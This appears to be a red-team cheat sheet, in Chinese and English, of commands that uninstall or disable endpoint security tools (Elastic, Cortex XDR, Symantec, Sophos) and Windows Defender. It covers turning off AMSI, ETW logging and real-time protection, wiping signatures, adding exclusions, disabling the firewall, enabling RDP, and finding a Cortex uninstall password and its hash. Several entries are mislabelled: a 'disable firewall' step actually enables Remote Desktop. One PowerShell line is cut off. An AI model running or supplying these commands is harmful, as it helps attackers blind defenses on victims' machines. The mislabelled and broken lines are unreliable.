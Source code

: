 #### Sophos
	https://github.com/ayeskatalas/Sophos-Removal-Tool/
#### Symantec
	https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html
#### Elastic EDR
	https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html
	  cd "C:\Program Files\Elastic\Agent\"
	  PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
	  Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
	  Elastic Agent has been uninstalled.
#### Cortex XDR
	https://mrd0x.com/cortex-xdr-analysis-and-bypass/
	卸载密码：Password1
	Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
	Look for PasswordHash, PasswordSalt or password, salt strings.

	禁用Cortex：将DLL改成随机值，然后重启
	reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

	启动时禁用，重启生效
	cytool.exe startup disable

	禁用对 Cortex XDR 文件、进程、注册表和服务的保护
	cytool.exe protect disable

	禁用 Cortex XDR（即使启用了篡改保护）
	cytool.exe runtime disable

	禁用事件收集
	cytool.exe event_collection disable
#### 禁用Windows Defender
	禁用Defender
	sc config WinDefend start= disabled
	sc stop WinDefend
	Set-MpPreference -DisableRealtimeMonitoring $true

	排除进程/位置
	Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
	Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
	Add-MpPreference -ExclusionPath C:\Video, C:\install

	禁用扫描所有下载的文件和附件，禁用 AMSI
	PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
	PS C:\> Set-MpPreference -DisableIOAVProtection $true
	禁用 AMSI (设置为0为启动)
	PS C:\> Set-MpPreference -DisableScriptScanning 1 

	清零 ETW 会话对应的注册表值
	reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

	擦除当前存储的定义
	MpCmdRun.exe 的位置：C:\ProgramData\Microsoft\Windows Defender\Platform\
	MpCmdRun.exe -RemoveDefinitions -All

	删除签名
	PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
	PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

	禁用 Windows Defender 安全中心
	reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

	禁用实时保护
	reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
#### 防火墙
	允许进站
	如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下:
	>netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
	>netsh firewall set portopening TCP 3389 ENABLE
	防火墙关闭
	>netsh firewall set opmode mode=disable
	>netsh advfirewall show allprofiles查看状态
	>netsh advfirewall set allprofiles state off 
	>sc stop windefend
	>sc delete windefend
	PS> Set-MpPreference -DisableRealtimeMonitoring 1
	PS> Set-MpPreference -Disablearchivescanning $true
	IP白名单
	>New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress 10.10.10.10
	列出防火墙的阻止端口
	>$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
	禁用防火墙
	在 Windows 7 上通过 cmd 禁用防火墙
	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f

	在 Windows 7 上通过 Powershell 禁用防火墙
	powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

	通过 cmd 在任何windows上禁用防火墙
	netsh firewall set opmode disable
	netsh Advfirewall set allprofiles state off